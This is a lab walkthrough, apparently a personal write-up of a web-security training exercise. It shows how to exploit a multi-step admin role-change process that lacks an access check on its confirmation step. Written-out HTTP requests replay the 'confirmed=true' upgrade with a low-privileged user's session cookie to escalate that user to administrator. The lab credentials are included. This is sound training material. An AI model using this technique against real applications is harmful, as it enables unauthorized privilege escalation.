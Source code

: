 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514200914.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514200945.png)

### Multi-step process with no access control on one step
```bash

# This lab has an admin panel with a flawed multi-step process for changing a user's role. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

# To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 

Login with administrator:admin
Go to: "Admin panel"
Intercept is on

POST /admin-roles HTTP/1.1

username=carlos&action=upgrade

Send to repeater

POST /admin-roles HTTP/1.1

action=upgrade&confirmed=true&username=wiener

Send to repeater

Go to: "Logout"
Login as wiener:peter
Go to: HTTP history
Find:

GET /my-account HTTP/1.1

Cookie: session=jHCbbrD4jaPFkIj2gJ3Pk4PD4GNvEbsF

Take the cookie from username "wiener"
Go to:

POST /admin-roles HTTP/1.1

Change:

action=upgrade&confirmed=true&username=carlos

To

action=upgrade&confirmed=true&username=wiener

Note the response:

HTTP/1.1 302 Found

```
